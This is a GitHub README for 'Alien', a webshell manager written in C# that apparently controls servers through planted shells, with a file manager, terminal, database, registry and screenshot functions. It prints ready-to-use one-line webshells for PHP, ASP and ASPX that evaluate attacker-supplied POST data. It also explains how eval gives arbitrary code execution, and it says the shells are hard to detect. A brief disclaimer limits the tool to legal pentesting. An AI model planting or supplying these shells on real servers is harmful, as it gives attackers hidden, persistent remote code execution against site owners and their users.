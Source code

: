 # Alien

Website Manager

## Disclaimer
This tool only use in legal pentest, reasearch and website management\
You should take the consequence if you use in illegal purpose.

## Language
C# .NET Framework V4.8

## Function
- FileManager(Can display image file, search file)
- Virtual Terminal
- System Information
- Database Management
- RegEdit
- Monitor
- Screenshot

## OneShell
OneShell is a tool use in pentesting for control the server.\
It can be very tiny and very difficult to be found.
These are the simplest oneshell.

- PHP
```<?php @eval($_POST['password']);?>```
- ASP
```<%execute(request("password"))%>```
- ASPX
```<%@ Page Language="Jscript"%><%eval(Request.Item["password"])%>```
Also, Alien support asmx , ashx webshell

## JSP webshell
Original chopper jsp shell, but some addition.\
it can display image

## NodeJS webshell
Differenti to php, asp, aspx, jsp...\
It is difficult to use in pentestation, but use in management.

## Server Manager
- MySQL : PHP
- Access : https://github.com/malbuffer4pt/DBer
- SQL Server : ASP ASPX ASMX ASHX

## Principle
For PHP, eval() function can evaluate the string as a code.\
if eval() contains a controllable variable, then we can execute any code we like.\
Example: eval($_POST['a']);\
HTTP POST a=phpinfo();\
The the server will execute code "phpinfo();"

## Screenshot
![5](https://github.com/malbuffer4pt/Alien/blob/main/5.png)
![1](https://github.com/malbuffer4pt/Alien/blob/main/1.png)
![6](https://github.com/malbuffer4pt/Alien/blob/main/6.png)
![2](https://github.com/malbuffer4pt/Alien/blob/main/2.png)
![3](https://github.com/malbuffer4pt/Alien/blob/main/3.png)
![4](https://github.com/malbuffer4pt/Alien/blob/main/4.png)

## Acknowledgements
Every veteran who study in webshell.
